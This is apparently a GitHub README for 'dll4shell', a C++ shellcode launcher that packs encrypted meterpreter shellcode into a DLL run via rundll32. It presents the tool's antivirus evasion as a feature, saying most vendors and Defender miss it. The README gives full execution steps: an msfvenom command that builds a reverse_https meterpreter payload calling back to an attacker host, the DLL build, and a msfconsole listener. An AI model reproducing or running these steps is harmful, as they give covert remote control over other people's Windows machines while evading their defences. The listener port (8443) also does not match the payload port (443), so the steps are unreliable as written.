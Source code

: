 ### C++ shellcode launcher

Dll generator designed to run the shellcode via rundll32. Based on the "charlotte" tool and research mentioned in external references. Current features include:

* Using classic chain VirtualAlloc - CreateThread to execute the code in rundll32 process.
* Shellcode XOR and Cezar / Shift encryption.
* Simple python script to do the magic.

As of now, the dll created with meterpreter code is detected by 5 / 65 vendors. Although VirusTotal suggests Defender detects the payload, on the real machines it does not.

![](dll4shell.png)

### Execution steps
```
git clone https://github.com/cepxeo/dll4shell && cd dll4shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 EXITFUNC=thread -f raw -e x64/xor_dynamic -a x64 -o beacon.bin

sudo apt install mingw-w64
python dll4shell.py -e xor (alternalively: -e shift)

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST YOUR_IP; set LPORT 8443; exploit"
```

### External references

[charlotte](https://github.com/9emin1/charlotte)
[Bypassing Windows Defender with Environmental Decryption Keys](https://www.secarma.com/bypassing-windows-defender-with-environmental-decryption-keys/)
